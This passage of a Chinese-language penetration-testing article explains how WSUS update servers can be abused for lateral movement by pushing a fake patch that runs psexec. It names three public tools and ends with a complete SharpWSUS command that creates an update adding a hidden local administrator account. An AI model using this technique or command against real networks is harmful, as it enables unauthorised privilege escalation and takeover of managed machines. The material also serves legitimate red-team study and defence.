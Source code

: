 其中`AUOptions`对应组策略配置中的`Configure automatic updating`，`2`代表`Notify for download and notify for install`，`3`代表`Auto download and notify for install`，`4`代表`Auto download and schedule the install`，`5`代表`Allow local admin to choose setting`

(2)组策略配置服务器地址后会创建注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`

查询命令：`REG QUERY "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate"`

返回结果示例：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    http://192.168.112.182:8530
    WUStatusServer    REG_SZ    http://192.168.112.182:8530
```

### 3.推送补丁

在WSUS服务器的`Windows Server Update Services`页面，选择指定补丁，右键点击`Approve...`，在弹出的对话框中选择计算机组即可

等待客户端到达补丁更新时间，即可完成补丁的推送

## 0x03 利用思路
---

如果我们能够生成一个带有Payload的补丁，就能够通过补丁进行横向移动，但是在利用上需要注意补丁文件的签名问题：Windows的补丁文件需要带有微软的签名

通常的利用方法是使用带有微软签名的程序，例如psexec，通过psexec执行命令或者添加一个管理员用户

## 0x04 实现工具
---

开源的工具有以下三个：

https://github.com/nettitude/SharpWSUS

https://github.com/AlsidOfficial/WSUSpendu

https://github.com/ThunderGunExpress/Thunder_Woosus

以上三个工具的实现原理基本相同，都是创建一个调用psexec执行命令的补丁，将补丁推送至指定计算机，等待目标计算机更新补丁

创建补丁的操作需要连接SQL数据库，依次实现以下操作：

- ImportUpdate
- PrepareXMLtoClient
- InjectURL2Download
- DeploymentRevision
- PrepareBundle
- PrepareXMLBundletoClient
- DeploymentRevision

### 1.创建补丁

SharpWSUS在创建补丁时需要注意转义字符，命令示例：

```
SharpWSUS.exe create /payload:"C:\Users\ben\Documents\pk\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \"net user WSUSDemo Password123! /add ^&^& net localgroup administrators WSUSDemo /add\"" /title:"WSUSDemo"
```
